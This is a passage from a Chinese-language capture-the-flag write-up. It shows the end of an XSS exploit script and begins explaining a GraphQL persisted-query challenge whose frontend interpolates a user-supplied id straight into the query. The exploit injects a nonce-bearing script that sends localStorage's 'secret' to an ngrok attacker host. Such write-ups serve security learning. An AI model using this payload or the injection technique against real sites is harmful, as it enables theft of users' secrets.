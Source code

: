 ``` html
            return setTimeout(poll, 100)
          }
          f.name.value = `<script nonce=${nonce}>
            location = 'http://43d1-ip.ngrok.io?q='+localStorage.getItem('secret')
          <\/script>`
          f.submit()
      })
  }
  poll()

</script>
```

## Momomomomemomemo (3 solves)

這題隊友解出來的，也滿有趣的，總之就是前端會根據你提供的 id 用 GraphQL 去抓結果：

``` js
memo(id) {
    const query = `query { 
        memo (
            id: "${id}", 
            token: "${this.token}") {
                content
            } 
        }`;
    return this.#query(query);
}
```

在最後 query 的部分是使用了 [persisted queries](https://www.apollographql.com/docs/apollo-server/performance/apq/)，以前有聽過，大概就是你先送 query 的 hash 出去，如果以前就有執行過的話，會直接送結果回來。

反之若是沒有，你就再送一次 hash + query，讓後端去 cache 結果，而前端的實作是這樣：

``` js
async #query(query) {
    const hash = await this.#getQueryHash(query);
    const res = await fetch(
        this.endpoint +
            "?" +
            new URLSearchParams({
                extensions: JSON.stringify({
                    persistedQuery: { version: 1, sha256Hash: hash },
                }),
            }),
        {
            headers: { "Content-type": "application/json" },
        }
    );
    const data = await res.clone().json();
    if (data.errors) {
        if (data.errors[0].extensions.code == "PERSISTED_QUERY_NOT_FOUND") {
            return await fetch(this.endpoint, {
                method: "POST",
                headers: { "Content-type": "application/json" },
                body: JSON.stringify({
                    query,
                    extensions: {
                        persistedQuery: {
                            version: 1,
                            sha256Hash: hash,
                        },
                    },
                }),
```